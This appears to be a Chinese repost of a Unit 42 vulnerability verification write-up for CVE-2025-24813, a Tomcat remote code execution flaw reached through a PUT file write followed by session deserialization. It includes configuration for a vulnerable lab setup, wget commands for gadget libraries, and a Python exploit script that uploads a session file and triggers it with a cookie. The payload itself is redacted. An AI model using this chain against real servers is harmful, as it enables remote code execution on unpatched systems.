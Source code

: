#  不赶趟的 tomcat:CVE-2025-24813漏洞验证   
 独眼情报   2025-03-15 15:55  
  
不赶趟的CVE-2025-24813漏洞验证  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/KgxDGkACWnS82kVOzNCmdD5aUBR7tRzcWMViaXLg6iaI00Jt1xZibicWFmUfpFuibMGxJYUkm1HNicmcJQfaDqhN9mnw/640?wx_fmt=jpeg&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/KgxDGkACWnS82kVOzNCmdD5aUBR7tRzcYQGiadLynVjnfULataBAxGiawR1kty89vedWkLh9ibU5ibwOE034g0GYVQ/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/KgxDGkACWnS82kVOzNCmdD5aUBR7tRzcmjpwTYqYtdnnzeCepcF20uCicSyjxDdVUH2PTRQBcxGxDyzT2M5nbQw/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/KgxDGkACWnS82kVOzNCmdD5aUBR7tRzcRLlyPEc2plHlZ4krDEzN0rKpVPU7eVqr0Lkgvz2Unb1uic4IgyWtmEg/640?wx_fmt=png&from=appmsg "")  
## 作者  
- Yiheng An, Jun Li, Qiang Liu, Haozhe Zhang, Qi Deng  
  
## 参考资料  
- https://www.linkedin.com/posts/unit42_we-have-tested-cve-2025-24813-under-specific-activity-7306384143167168512-7-uj/  
  
- https://x.com/Unit42_Intel/status/1900618521303740709  
  
## 原始参考资料  
- https://lists.apache.org/thread/j5fkjv2k477os90nczf2v9l61fb0kkgq  
  
- https://nvd.nist.gov/vuln/detail/CVE-2025-24813  
  
- https://scrapco.de/blog/analysis-of-cve-2025-24813-apache-tomcat-path-equivalence-rce.html  
  
## 受影响版本  
- Apache Tomcat 11.0.0-M1 至 11.0.2  
  
- Apache Tomcat 10.1.0-M1 至 10.1.34  
  
- Apache Tomcat 9.0.0.M1 至 9.0.98  
  
## 说明  
  
CVE-2025-24813 是最近公布的 Apache Tomcat 漏洞。Apache 是一个开源的网络服务器平台，而 Tomcat 是允许 Apache 网络服务器运行 Java servlets 的软件。  
  
利用此漏洞包括两个步骤：  
1. 任意文件写入  
  
1. 不安全的反序列化  
  
#### 任意文件写入  
  
当 Tomcat 中启用会话持久性时，服务器将在关闭前序列化所有活动用户会话。重新启动时，Tomcat 将反序列化这些会话，允许用户会话保持活动状态，而用户不会察觉服务器重新启动。  
  
然而，如果在 Tomcat 中启用了 HTTP PUT 方法，通过 HTTP PUT 请求上传的文件可能会被缓存在存储序列化会话数据的同一目录中。在易受攻击的网络服务器上，攻击者可能能够将恶意文件保存到序列化会话数据目录。  
#### 不安全的反序列化  
  
将恶意文件保存到序列化会话数据目录后，攻击者可以使用精心制作的 cookie 来"唤醒"会话。这可能会触发 Tomcat 反序列化恶意构造的会话文件，从而通过与 CVE-2025-24813 相关的反序列化漏洞进行利用。  
## 测试漏洞利用  
  
我们成功地在运行过时版本 Tomcat 和过时版本 Java 的 Apache 网络服务器上测试了 CVE-2025-24813 的漏洞利用。部分信息已经发布在   
Lingua Diabolis  
。  
  
注意：以下所有 URL 均已去毒。  
#### 测试环境  
- Ubuntu 24 Server  
  
- Apache-Tomcat 9.0.90  
  
- hxxps[:]//archive.apache[.]org/dist/tomcat/tomcat-9/v9.0.90/bin/apache-tomcat-9.0.90.zip  
  
- Java 8.0.442-zulu  
  
- 一些依赖项  
  
- hxxps[:]//repo1.maven[.]org/maven2/commons-logging/commons-logging/1.2/commons-logging-1.2.jar  
  
- htxxps[:]//repo1.maven[.]org/maven2/commons-beanutils/commons-beanutils/1.9.4/commons-beanutils-1.9.4.jar  
  
#### 建立易受攻击的 Tomcat 配置  
1. 启用 PUT  
  
编辑 tomcat/conf/web.xml  
 在 default  
 servlet 名称部分下添加 readonly  
 参数并将其设置为 false  
。示例如下，代码的末尾处。  
```
    <servlet>
        <servlet-name>default</servlet-name>
        <servlet-class>org.apache.catalina.servlets.DefaultServlet</servlet-class>
        <init-param>
            <param-name>debug</param-name>
            <param-value>0</param-value>
        </init-param>
        <init-param>
            <param-name>listings</param-name>
            <param-value>false</param-value>
        </init-param>
        <init-param>
          <param-name>readonly</param-name>
          <param-value>false</param-value>
        </init-param>
        <load-on-startup>1</load-on-startup>
    </servlet>

```  
  
  
1. 启用会话持久性  
  
编辑 /tomcat/conf/content.xml  
 并添加以下设置。  
```
    <Manager className="org.apache.catalina.session.PersistentManager">
      <Store className="org.apache.catalina.session.FileStore" />
    </Manager>

```  
  
  
1. 使用以下命令，在 /tomcat/webapps/ROOT/WEB-INF/lib  
 创建一个目录，并在其中放置两个过时的依赖项。  
```
mkdir ./tomcat/webapps/ROOT/WEB-INF/lib && cd ./tomcat/webapps/ROOT/WEB-INF/lib
wget hxxps[:]//repo1.maven[.]org/maven2/commons-logging/commons-logging/1.2/commons-logging-1.2.jar
wget hxxps[:]//repo1.maven[.]org/maven2/commons-beanutils/commons-beanutils/1.9.4/commons-beanutils-1.9.4.jar

```  
  
  
#### 漏洞利用  
  
我们使用   
Java Chains  
 创建了一个特制的会话文件，并将其发送到临时易受攻击的运行 Apache Tomcat 的网络服务器 www.wiresharkworkshop[.]online  
。以下是用于此目的的 Python 脚本示例。恶意会话文件名为 gopan.session  
，但可以更改为任何名称。  
```
import requests
import base64
import os

TARGET_IP = "hxxp[:]//www.wiresharkworkshop[.]online:8080/"

# b64_encoded_payload = "****[information redacted]****"

output_file_path = "decoded_chain.bin"
decoded_content = base64.b64decode(b64_encoded_payload)

with open(output_file_path, "wb") as f:
    f.write(decoded_content)

put_url = f"{TARGET_IP}/gopan.session"
put_headers = {"Content-Range": "bytes 0-5/100"}

with open(output_file_path, "rb") as f:
    put_response = requests.put(put_url, data=f, headers=put_headers)
os.remove(output_file_path)

get_url = f"{TARGET_IP}/"
get_headers = {"Cookie": "JSESSIONID=.gopan"}
get_response = requests.get(get_url, headers=get_headers)

```  
>   
> 文章原文：https://github.com/PaloAltoNetworks/Unit42-timely-threat-intel/blob/main/2025-03-14-Testing-CVE-2025-24813.md  
  
>   
> 其他大佬的视频讲解：https://www.bilibili.com/video/BV14dQjYcEc5/  
  
>   
> 其他大佬的视频讲解：https://www.bilibili.com/video/BV1e7QPYBEBU  
  
  
  
